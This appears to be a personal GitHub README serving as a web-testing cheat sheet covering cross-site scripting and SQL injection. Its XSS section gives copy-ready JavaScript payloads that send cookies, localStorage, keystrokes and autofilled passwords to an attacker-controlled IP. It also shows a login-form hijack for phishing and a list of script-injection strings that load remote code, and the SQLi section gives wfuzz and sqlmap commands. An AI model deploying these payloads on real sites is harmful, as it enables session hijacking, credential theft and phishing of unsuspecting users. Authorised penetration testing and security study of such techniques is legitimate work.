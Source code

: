 # Welcome to Useful-Shit/Web!

Hi! This would probably be better as a gist, honestly. But it's my repo and I'll do what I want!
This is basically just a web testing cheatsheet for me but if you find my stuff useful, a star would be appreciated 😁

## Quick Jump:
- [XSS](#xss-copypastas)
- 

# Cross-Site Scripting (XSS)

XSS Payloads for fun and profit. Different types of XSS:

 - **Reflected Server XSS:** often found in locations where user input is sent via GET parameters.
	 - `search.php?s=%3Cscript%3Ealert%280%29%3C%2Fscript%3E`
 - **Stored Server XSS:** Literally stored on the server. Think user comments or blog/page posts.
	 - `<script>alert(0)</script>`
 - **Reflected Client XSS:** Same kind of idea as the Server XSS. Stuff some junk into a parameter and see what sticks.
	 - `<img src='x' onerror='alert(1)'>`
 - **Stored Client XSS:** Things like form elements can be taken advantage of to store XSS, for example a survey page for Jarrod has the URL `http://survey.tld/?name=Jarrod` and after filling the survey we end up with a new parameter `http://survey.tld/?name=Jarrod&result`. The answers to the survey could be prone to injection, and should be tested.

## XSS - Exploitation

### Stealing session cookies

Leverage XSS to fetch the payload from a web server you control:
`xss.js`

```javascript
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)
```

This payload may not work if `HttpOnly` is specified in the server headers.

### Stealing local secrets

Local storage may include secrets like API keys or personal user info. There are two types: `sessionStorage` and `localStorage` - session storage only holds data for the session, whereas `localStorage` is the local cache and won't be flushed until explicitly done so.
`local.js`

```javascript
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)
```

### Keylogging

It's keylogging, but through XSS. Let's see what users are typing:
`klog.js`

```javascript
function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);
```

### Stealing saved passwords
`stealer.js`

```javascript
let body = document.getElementsByTagName("body")[0]

  var u = document.createElement("input");
  u.type = "text";
  u.style.position = "fixed";
  //u.style.opacity = "0";

  var p = document.createElement("input");
  p.type = "password";
  p.style.position = "fixed";
  //p.style.opacity = "0";

  body.append(u)
  body.append(p)

  setTimeout(function(){ 
          fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
   }, 5000);
```

### Phishing users

The concept is simple: Use javascript to *fetch* the login page, and change the action (submit) on the form to point to our listening server hosting the XSS. Take the above **Reflected Server XSS** for example. In the `search.php?s=` parameter, we could use `<script src="10.10.13.37/xss.js"></script>`, but URLEncode it first: `search.php?s=%3Cscript%20src%3D%2210%2E10%2E13%2E37%2Fxss%2Ejs%22%3E%3C%2Fscript%3E`. Now we have a deadly link to send to users, or take it a step further and use a URL shortener 😉


```javascript
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.51"
	document.getElementsByTagName("form")[0].method = "get"
}))
```

## XSS Copypastas

 - `<script>alert(0)</script>`

 - `<img src='x' onerror='alert(1)'>`

 - `<img src='x' onerror='alert(document.location)'>`

 - External payload: `<script src="http://10.10.13.37/xss.js"></script>`

 - Insert script from external: `<img src='x' onerror='const script = document.createElement("script"); script.src="http://10.10.13.37/xss-login.js";document.head.append(script);'>`


## SQL Injection (SQLi)

### Fuzzing GET parameter
```shell
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"
```

### Fuzzing POST parameter
```shell
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"
```

### sqlmap GET parameter
```shell
sqlmap -u "$URL/index.php?id=1"
```

### sqlmap POST parameter
Copy POST request from Burp Suite into `post.txt` file
```shell
sqlmap -r post.txt -p parameter
```